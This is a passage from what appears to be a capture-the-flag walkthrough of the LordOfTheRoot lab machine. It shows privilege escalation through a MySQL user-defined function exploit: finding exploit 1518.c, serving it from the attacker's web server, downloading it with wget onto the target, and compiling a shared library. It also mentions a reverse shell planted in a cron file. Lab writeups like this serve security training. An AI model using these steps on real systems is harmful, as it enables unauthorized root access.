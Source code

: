 As we can see our reverse shell was written as root, but it doesn't is executed.

```bash
smeagol@LordOfTheRoot:~$ ls -la /etc/cron.d/back.door -rw-rw-rw- 1 root
root 80 Nov 03 06:06 /etc/cron.d/back.door 
```

### MySQL User Defined Functions

This version of MySQL is affected by a vulnerability that allows users to run user-defined functions to execute commands in the context of MySQL, which in this case is root. access to MySQL as the root user is required.

```bash
smeagol@LordOfTheRoot:~$ mysql --version 
mysql Ver 14.14 Distrib 5.5.44, for debian-linux-gnu (i686) using readline 6.3 
```

As we know the MySQL credentials and this is running as root only we just to look for a UDF exploit, there is an article how to exploit UDF [here](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf).

```bash
root@kali:~$ searchsploit mysql udf local
------------------------------------------------------------------------------------ -------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ -------------------------
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)              | linux/local/1181.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)             | linux/local/1518.c
MySQL 4/5/6 - UDF for Command Execution                                             | linux/local/7856.txt
------------------------------------------------------------------------------------ -------------------------
```

I copied the 1518.c exploit to my current directory, moved it to the web root, and started the apache service.

```bash
root@kali:~$ searchsploit -m linux/local/1518.c
root@kali:~$ mv 1518.c /var/www/html
root@kali:~$ systemctl start apache2.service
```

On the target machine we download the UDF exploit, we compile it and create the shared library.

```bash
smeagol@LordOfTheRoot:~$ wget 192.168.179.1/1518.c
smeagol@LordOfTheRoot:~$ gcc -g -c 1518.c -o raptor_udf2.o -fPIC
smeagol@LordOfTheRoot:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
